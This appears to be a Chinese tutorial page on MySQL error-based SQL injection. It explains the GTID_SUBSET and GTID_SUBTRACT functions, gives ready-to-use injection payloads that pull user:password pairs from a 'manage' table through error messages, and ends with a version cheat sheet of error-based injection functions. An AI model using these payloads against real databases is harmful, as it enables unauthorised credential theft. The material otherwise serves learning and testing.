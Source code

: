 

**函数详解**



GTID_SUBSET() 和 GTID_SUBTRACT() 函数，我们知道他的输入值是 GTIDset ，当输入有误时，就会报错



1. GTID_SUBSET( set1 , set2 ) - 若在 set1 中的 GTID，也在 set2 中，返回 true，否则返回 false ( set1 是 set2 的子集)
2. GTID_SUBTRACT( set1 , set2 ) - 返回在 set1 中，不在 set2 中的 GTID 集合 ( set1 与 set2 的差集)
   正常情况如下



```sql
GTID_SUBSET(‘3E11FA47-71CA-11E1-9E33-C80AA9429562:23’,‘3E11FA47-71CA-11E1-9E33-C80AA9429562:21-57’)GTID_SUBTRACT(‘3E11FA47-71CA-11E1-9E33-C80AA9429562:21-57’,‘3E11FA47-71CA-11E1-9E33-C80AA9429562:20-25’)
```



**注入过程**



**GTID_SUBSET函数**



```sql
') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
```



**GTID_SUBTRACT**



```sql
') or gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
```



```sql
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```



#### 报错函数速查表



注：默认MYSQL_ERRMSG_SIZE=512

| 类别              | 函数                                                         | 版本需求        | 5.5.x | 5.6.x | 5.7.x | 8.x  | 函数显错长度 | Mysql报错内容长度 | 额外限制            |
| ----------------- | ------------------------------------------------------------ | --------------- | ----- | ----- | ----- | ---- | ------------ | ----------------- | ------------------- |
| 主键重复          | floor round                                                  | ❓               | ✔️     | ✔️     | ✔️     |      | 64           |                   | data_type ≠ varchar |
| 列名重复          | name_const                                                   | ❓               | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only version()      |
| 列名重复          | join                                                         | [5.5.49, ?)     | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only columns        |
| 数据溢出 - Double | 1e308 cot exp pow                                            | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 数据溢出 - BIGINT | 1+~0                                                         | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 几何对象          | geometrycollection linestring multipoint multipolygon multilinestring polygon | [?, 5.5.48]     | ✔️     |       |       |      |              | 244               |                     |
| 空间函数 Geohash  | ST_LatFromGeoHash ST_LongFromGeoHash ST_PointFromGeoHash     | [5.7, ?)        |       |       | ✔️     | ✔️    | 128          |                   |                     |
| GTID              | gtid_subset gtid_subtract                                    | [5.6.5, ?)      |       | ✔️     | ✔️     | ✔️    | 200          |                   |                     |
| JSON              | json_*                                                       | [5.7.8, 5.7.11] |       |       | ✔️     |      | 200          |                   |                     |
| UUID              | uuid_to_bin bin_to_uuid                                      | [8.0, ?)        |       |       |       | ✔️    | 128          |                   |                     |